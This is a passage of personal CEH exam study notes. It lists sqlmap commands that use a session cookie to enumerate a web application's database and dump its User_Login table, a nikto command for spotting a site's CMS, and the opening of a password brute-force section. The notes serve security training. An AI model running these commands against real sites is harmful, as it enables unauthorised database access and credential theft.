         OR we can take things step by step:
        
        1. `sqlmap -u {profile url} --cookie="{}" --current-db`
        2. `sqlmap -u {profile url} --cookie="{}" -D {current database} --tables`
        3. `sqlmap -u {profile url} --cookie="{}" -T User_Login --dump`
- Find the Content Management System used by a website: `nikto --url test.com` (answer would be something like WordPress0
    
    ![Untitled](CEH%20Notes%20(Personal)%205fd56f13be54493ca0bc11db3f428466/Untitled%204.png)
    
- Perform a Bruteforce attack to find the password of a user:
    1. (Optional) get website info: `nikto --url {}`
        
        ![Untitled](CEH%20Notes%20(Personal)%205fd56f13be54493ca0bc11db3f428466/Untitled%205.png)
        